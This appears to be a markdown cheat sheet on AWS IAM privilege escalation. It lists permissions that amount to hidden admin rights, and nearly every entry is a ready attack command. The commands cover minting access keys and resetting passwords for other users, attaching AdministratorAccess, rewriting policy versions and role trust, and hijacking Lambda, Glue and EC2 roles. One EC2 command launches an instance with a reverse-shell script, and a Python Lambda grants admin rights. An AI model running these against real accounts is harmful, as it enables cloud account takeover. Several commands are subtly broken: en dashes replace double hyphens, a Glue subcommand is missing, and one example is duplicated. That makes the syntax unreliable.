 # AWS - Identity & Access Management

## Listing IAM access Keys

```ps1
aws iam list-access-keys
```

### Listing IAM Users and Groups

```ps1
aws iam list-users
aws iam list-groups
```

## Shadow Admin 

### Admin equivalent permission 

- AdministratorAccess

    ```powershell
    "Action": "*"
    "Resource": "*"
    ```

- **ec2:AssociateIamInstanceProfile** : attach an IAM instance profile to an EC2 instance
    ```powershell
    aws ec2 associate-iam-instance-profile --iam-instance-profile Name=admin-role --instance-id i-0123456789
    ```

- **iam:CreateAccessKey** : create a new access key to another IAM admin account
    ```powershell
    aws iam create-access-key –user-name target_user
    ```

- **iam:CreateLoginProfile** : add a new password-based login profile, set a new password for an entity and impersonate it 
    ```powershell
    $ aws iam create-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
    ```

- **iam:UpdateLoginProfile** : reset other IAM users’ login passwords.
    ```powershell
    $ aws iam update-login-profile –user-name target_user –password '|[3rxYGGl3@`~68)O{,-$1B”zKejZZ.X1;6T}<XT5isoE=LB2L^G@{uK>f;/CQQeXSo>}th)KZ7v?\\hq.#@dh49″=fT;|,lyTKOLG7J[qH$LV5U<9`O~Z”,jJ[iT-D^(' –no-password-reset-required
    ```

- **iam:AttachUserPolicy**, **iam:AttachGroupPolicy** or **iam:AttachRolePolicy** : attach existing admin policy to any other entity he currently possesses
    ```powershell
    $ aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    $ aws iam attach-user-policy –user-name my_username –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    $ aws iam attach-role-policy –role-name role_i_can_assume –policy-arn arn:aws:iam::aws:policy/AdministratorAccess
    ```

- **iam:PutUserPolicy**, **iam:PutGroupPolicy** or **iam:PutRolePolicy** : added inline policy will allow the attacker to grant additional privileges to previously compromised entities.
    ```powershell
    $ aws iam put-user-policy –user-name my_username –policy-name my_inline_policy –policy-document file://path/to/administrator/policy.json
    ```

- **iam:CreatePolicy** : add a stealthy admin policy
- **iam:AddUserToGroup** : add into the admin group of the organization.
    ```powershell
    $ aws iam add-user-to-group –group-name target_group –user-name my_username
    ```

- **iam:UpdateAssumeRolePolicy** + **sts:AssumeRole** : change the assuming permissions of a privileged role and then assume it with a non-privileged account.
    ```powershell
    $ aws iam update-assume-role-policy –role-name role_i_can_assume –policy-document file://path/to/assume/role/policy.json
    ```

- **iam:CreatePolicyVersion** & **iam:SetDefaultPolicyVersion** : change customer-managed policies and change a non-privileged entity to be a privileged one.
    ```powershell
    $ aws iam create-policy-version –policy-arn target_policy_arn –policy-document file://path/to/administrator/policy.json –set-as-default
    $ aws iam set-default-policy-version –policy-arn target_policy_arn –version-id v2
    ```

- **lambda:UpdateFunctionCode** : give an attacker access to the privileges associated with the Lambda service role that is attached to that function.
    ```powershell
    $ aws lambda update-function-code –function-name target_function –zip-file fileb://my/lambda/code/zipped.zip
    ```

- **glue:UpdateDevEndpoint** : give an attacker access to the privileges associated with the role attached to the specific Glue development endpoint.
    ```powershell
    $ aws glue –endpoint-name target_endpoint –public-key file://path/to/my/public/ssh/key.pub
    ```


- **iam:PassRole** + **ec2:CreateInstanceProfile**/**ec2:AddRoleToInstanceProfile** : an attacker could create a new privileged instance profile and attach it to a compromised EC2 instance that he possesses.

- **iam:PassRole** + **ec2:RunInstance** : give an attacker access to the set of permissions that the instance profile/role has, which again could range from no privilege escalation to full administrator access of the AWS account.
    ```powershell
    # add ssh key
    $ aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –key-name my_ssh_key –security-group-ids sg-123456
    # execute a reverse shell
    $ aws ec2 run-instances –image-id ami-a4dc46db –instance-type t2.micro –iam-instance-profile Name=iam-full-access-ip –user-data file://script/with/reverse/shell.sh
    ```

- **iam:PassRole** + **lambda:CreateFunction** + **lambda:InvokeFunction** : give a user access to the privileges associated with any Lambda service role that exists in the account.
    ```powershell
    $ aws lambda create-function –function-name my_function –runtime python3.6 –role arn_of_lambda_role –handler lambda_function.lambda_handler –code file://my/python/code.py
    $ aws lambda invoke –function-name my_function output.txt
    ```
    Example of code.py
    ```python
    import boto3
    def lambda_handler(event, context):
        client = boto3.client('iam')
        response = client.attach_user_policy(
        UserName='my_username',
        PolicyArn="arn:aws:iam::aws:policy/AdministratorAccess"
        )
        return response
    ```

* **iam:PassRole** + **glue:CreateDevEndpoint** : access to the privileges associated with any Glue service role that exists in the account.
    ```powershell
    $ aws glue create-dev-endpoint –endpoint-name my_dev_endpoint –role-arn arn_of_glue_service_role –public-key file://path/to/my/public/ssh/key.pub
    ```


## References

* [Cloud Shadow Admin Threat 10 Permissions Protect - CyberArk](https://www.cyberark.com/threat-research-blog/cloud-shadow-admin-threat-10-permissions-protect/)